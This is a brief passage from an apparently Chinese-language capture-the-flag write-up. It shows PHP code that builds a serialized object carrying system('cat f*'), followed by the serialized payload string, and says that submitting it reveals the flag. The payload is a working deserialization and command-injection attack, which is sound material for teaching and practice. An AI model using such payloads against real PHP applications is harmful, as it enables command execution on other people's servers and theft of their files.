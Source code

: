 ![image-20240125173810405](照片/image-20240125173810405.png)

构建命令进行读取

```
 $a = new Example();
 $a->sys="system('cat f*');";
 echo "\n";
 echo serialize($a);

O:7:"Example":1:{s:3:"sys";s:17:"system('cat f*');";}
```

将其传入可以看到在源代码中得到flag
